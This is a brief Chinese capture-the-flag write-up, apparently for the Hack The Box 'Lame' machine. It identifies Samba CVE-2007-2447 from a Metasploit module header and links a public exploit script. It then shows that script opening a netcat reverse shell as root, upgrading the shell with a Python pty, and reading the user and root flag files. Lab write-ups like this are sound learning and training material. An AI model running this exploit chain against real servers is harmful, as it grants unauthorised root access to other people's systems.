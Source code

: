 ```shell
                         'Author'         => [ 'jduck' ],
                         'License'        => MSF_LICENSE,
                         'Version'        => '$Revision: 10040 $',
                         'References'     =>
                                [ 
                                        [ 'CVE', '2007-2447' ],
                                        [ 'OSVDB', '34700' ],
                                        [ 'BID', '23972' ],
                                        [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                                        [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                                ],
                         'Platform'       => ['unix'],
 
```

看到CVE编号：2007-2447

### Github

Github找利用脚本

随便找了一个，https://github.com/amriunix/CVE-2007-2447，安装依赖`$ pip install pysmb`，按照说明运行：

```shell
 $ python3 usermap_script.py 
 [*] CVE-2007-2447 - Samba usermap script
 [-] usage: python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
 
 $ nc -l -v -p 4444 
 
 $ python3 usermap_script.py 10.10.10.3 139 10.10.14.2 4444
 [*] CVE-2007-2447 - Samba usermap script
 [+] Connecting !
 [+] Payload was sent - check netcat !
 
 $ nc -l -v -p 4444   
 listening on [any] 4444 ...
 10.10.10.3: inverse host lookup failed: Unknown host
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 36956
 whoami
 root
 whereis python
 python: /usr/bin/python2.5-config /usr/bin/python /usr/bin/python2.5 /etc/python /etc/python2.5 /usr/lib/python2.3 /usr/lib/python2.5 /usr/lib/python2.4 /usr/local/lib/python2.5 /usr/include/python2.5 /usr/share/python /usr/share/man/man1/python.1.gz
 python -c 'import pty;pty.spawn("/bin/bash")'
 root@lame:/# find / -name user.txt
 find / -name user.txt
 /home/makis/user.txt
 root@lame:/# cat /home/makis/user.txt
 cat /home/makis/user.txt
 83bb7c7fff163562d48ac4ba14316025
 root@lame:/# cat /root/root.txt
 cat /root/root.txt
 848a15387ca22dcf38b1cdc8538223a0
 root@lame:/#
```
